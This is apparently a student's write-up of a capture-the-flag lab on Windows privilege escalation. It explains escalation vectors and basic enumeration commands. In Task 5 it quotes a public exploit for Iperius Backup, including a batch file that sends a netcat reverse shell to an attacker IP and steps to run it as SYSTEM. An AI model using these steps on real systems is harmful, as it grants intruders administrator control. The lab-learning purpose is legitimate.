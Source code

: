 # Windows PrivEscalation

### Windows Account types!

- Domain Administrators: (Highest rank) Manage all accounts of the organization.
	- A "domain" is a central registry used to manage all users and computers within the organization.
- Services: Accounts used by software to perform their tasks such as back-ups or antivirus scans.
- Domain users: Accounts typically used by employees.
- Local accounts: These accounts are only valid on the local system and can not be used over the domain.

### Windows Privilege Escalation Vectors

- Stored Credentials: Important credentials can be saved in files by the user or in the configuration file of an application installed on the target system.
- Windows Kernel Exploit: The Windows operating system installed on the target system can have a known vulnerability that can be exploited to increase privilege levels.
- Insecure File/Folder Permissions: In some situations, even a low privileged user can have read or write privileges over files and folders that can contain sensitive information.
- Insecure Service Permissions: Similar to permissions over sensitive files and folders, low privileged users may have rights over services.
- DLL Hijacking: Applications use DLL files to support their execution. Sometimes DLLs that are deleted or not present on the system are called by the application (the application can still run).
	- Finding a DLL the application is looking for in a location we can write to can help us create a malicious DLL file that will be run by the application.
	- In such a case, the malicious DLL will run with the main application's privilege level. 
- Unquoted Service Path: If the executable path of a service contains a space and is not enclosed within quotes, a hacker could introduce their own malicious executables to run instead of the intended executable.
- Always Install Elevated: Windows applications can be installed using Windows Installer (also known as MSI packages) files.
	- These files make the installation process easy and straightforward.
	- Windows systems can be configured with the "AlwaysInstallElevated" policy. This allows the installation process to run with administrator privileges without requiring the user to have these privileges.
	- This feature allows users to install software that may need higher privileges without having this privilege level. If "AlwaysInstallElevated" is configured, a malicious executable packaged as an MSI file could be run to obtain a higher privilege level.
- Other software: Software, applications, or scripts installed on the target machine may also provide privilege escalation vectors.

### Initial Information Gathering

- ```net users```
	- list users on the target system

- ```systeminfo```
	- Get information about the operating system!
- ```wmic service list```
	- list services installed on the target system!


## Task 1

```
net users
```

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q1.png)

## Task 2

```systeminfo```

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q2.png)

## Task 3 & 4

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q3.png)

## Task 5

#### Enumerating Iperius Service!

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-1.png)

Quick search on google of any common exploit! we found!

https://www.exploit-db.com/exploits/46863

```
Exploit:
1. Login as low privilege user where Iperius Backup and Iperius Backup Service are installed

2. Download netcat  from attacking machine
	 c:\users\low\downloads\nc.exe
	 
3. Create batch file calling netcat and sending command prompt to attacking machine
	c:\users\low\desktop\evil.bat
		@echo off
		c:\users\low\downloads\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
	nc -nlvvp 443

5. Open Iperius Backup and create new backup job
	- set any folder to backup (c:\temp)
	- set to any destination (c:\users\low\desktop)
	- set program to run before backup job (c:\users\low\desktop\evil.bat)

6. Right-click on newly created job and select "Run backup service as"
	- will either be local system or administrator account

7. Command prompt on attacking machine will appear
	C:\Program Files (x86)\Iperius Backup>whoami
	whoami
	<computer name>\<administrator>
```

Let follow the guide! to escalate out privs!

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-2.png)

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-3.png)

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-4.png)

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-5.png)

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-6.png)

## Task 6

```
C:\Users\thegrinch\Documents
```

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q6.png)

Have a great day!